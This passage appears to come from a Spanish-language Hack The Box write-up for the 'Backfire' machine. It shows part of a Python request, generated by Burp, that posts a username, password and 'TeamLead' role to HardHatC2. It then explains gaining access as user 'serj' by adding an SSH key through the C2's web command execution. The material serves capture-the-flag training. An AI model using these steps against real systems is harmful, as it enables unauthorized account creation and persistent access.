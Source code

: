 ```bash
  "Content-Type": "application/json"
}
burp0_json = {
  "password": "caden64",
  "role": "TeamLead",
  "username": "caden64"
}
r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
print(r.text)
```

[![login](/assets/img/writeups/hackthebox/backfire-hackthebox/login.png)](/assets/img/writeups/hackthebox/backfire-hackthebox/login.png)


## Ganando acceso al usuario serj

Para poder acceder al usuario serj, debemos añadir la ssh key al usuario serj.

En la interfaz web de HardHatC2, en una de las secciones podremos ir a la ejecución de comandos.
